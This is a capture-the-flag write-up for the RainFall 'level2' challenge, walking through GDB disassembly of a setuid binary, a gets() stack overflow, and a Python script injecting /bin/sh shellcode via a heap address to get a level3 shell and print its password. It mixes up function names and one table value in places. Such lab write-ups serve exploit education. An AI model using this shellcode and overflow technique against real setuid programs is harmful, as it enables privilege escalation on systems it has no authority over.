

# Level2

## Walkthrough

We list the files in the current home directory.

```bash
level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
level2@RainFall:~$ file level2 
level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```

The file is owned by **level3** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```

There are 2 interesting functions: `main()` and `p()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   ebp
   0x08048540 <+1>:     mov    ebp,esp
   0x08048542 <+3>:     and    esp,0xfffffff0
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave  
   0x0804854b <+12>:    ret
End of assembler dump.
```

The `main()` function only calls the `p()` function.

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp,0x68
   0x080484da <+6>:     mov    eax,ds:0x8049860
   0x080484df <+11>:    mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    eax,[ebp-0x4c]
   0x080484ea <+22>:    mov    DWORD PTR [esp],eax
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    eax,0x8048620
   0x0804850c <+56>:    mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    mov    DWORD PTR [esp],eax
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    eax,[ebp-0x4c]
   0x0804852a <+86>:    mov    DWORD PTR [esp],eax
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    eax,[ebp-0x4c]
   0x08048535 <+97>:    mov    DWORD PTR [esp],eax
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave  
   0x0804853e <+106>:   ret    
End of assembler dump.
```

The `run()` function:
- decrements the stack pointer by `0x68` bytes
- calls `gets()` with the start of the buffer set to `ebp - 0x4c`
- performs a bitwise `AND` operation on a copy of `eip` moved to `eax`
- compares the previous value with `0xb0000000` and exits if they are equal
- calls `puts()` with the top of the stack pointer passed as first argument
- calls `strdup()` with the top of the stack pointer passed as first argument

Like in the previous level, we can exploit the executable with a **buffer overflow**, because no validation is performed in order to prevent the user from entering more than x characters during `gets()`.  
But there is no declared function to run in order to spawn a shell: we have to create our own shellcode.

In order to simplify the calculation of the required number of characters to input, we draw a diagram of the stack.



108 - 28 = 80 bytes.

We create a **Python** script whichs:
- inserts a payload of 80 characters
- overrides `eip` with the address in memory of `eip` incremented by 4 bytes ([detailled explanation](#find-the-current-address-of-eip))
- inserts a **shellcode** that will be called thanks to the address stored in `eip`

```python
payload = "\x41" * 80
eip = "\x40\xf6\xff\xbf"
shellcode = "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"

print payload + eip + shellcode
```

```bash
level2@RainFall:~$ (python /tmp/level2/script.py; cat) | ./level2 
(0xbffff640)
whoami
```

Unfortunately our script doesn't work ([detailled explanation](#why-our-first-script-is-not-working)).  
Because all the adjacent memory addresses start with `0xbf`, we are unable to use them for storing our shellcode. After reviewing the `p()` function, we notice that it is calling `strdup()` which in return calls `malloc()` and so allocates memory on the **heap**. We use the `ltrace` command to intercept the library calls and get the location in memory of our duplicated string.

```bash
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff714, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                                                                 = 0
gets(0xbffff61c, 0, 0, 0xb7e5ec73, 0x80482b5
)                                                                                                      = 0xbffff61c
puts(""
)                                                                                                                                           = 1
strdup("")                                                                                                                                         = 0x0804a008
+++ exited (status 8) +++
```

We rewrite the previous script in order to account for the changes: the shellcode is directly printed into the buffer, followed by x placeholder characters, and ended by the address in the **heap** of the string.

```python
shellcode = "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"
shellcode_len = len(shellcode)
pad = "\x41" * (80 - shellcode_len)
eip = "\x08\xa0\x04\x08"

print shellcode + pad + eip
```

```bash
level2@RainFall:~$ (python /tmp/level2.py; cat) | ./level2
���//sh�/binQVW�$�
                  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Additional information

### Find the current address of `eip`

We use the `info frame` command from **GDB** in order to display advanced information about a stack frame.

```
(gdb) break p
Breakpoint 1 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x080484da in p ()
(gdb) info frame
Stack level 0, frame at 0xbffff640:
 eip = 0x80484da in p; saved eip 0x804854a
 called by frame at 0xbffff650
 Arglist at 0xbffff638, args: 
 Locals at 0xbffff638, Previous frame's sp is 0xbffff640
 Saved registers:
  ebp at 0xbffff638, eip at 0xbffff63c
```

The `eip` register is stored at address `0xbffff63c`.  
Because we are gonna write past this address thanks to the **buffer overflow**, we increment it by 4 bytes to know where our shellcode will be written to: `0xbffff63c` + 4 = `0xbffff640`.

### Why our first script is not working

In our first script, we are overriding `eip` with `0xbffff640` but it passes the condition written below, and therefore calls `exit()`, instead of continuing the execution.

```
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```

| Information | Hexadecimal | Binary |
| --- | --- | --- |
| Address of our shellcode | 0xbffff640 | 10111111111111111111011001000000 |
| `AND` second operand | 0xb0000000 | 10110000000000000000000000000000 |
| After `AND` | 0xbffff640 | 10110000000000000000000000000000 |

As a result of this `AND` operation, our address is indeed equal to `0xb0000000` and passes the condition.

## Resources

- [Buffer Overflow Examples, Code execution by shellcode injection - protostar stack5](https://0xrick.github.io/binary-exploitation/bof5/#building-the-exploit)
- [BlackCloud - Shellcodes](https://blackcloud.me/shellcodes)
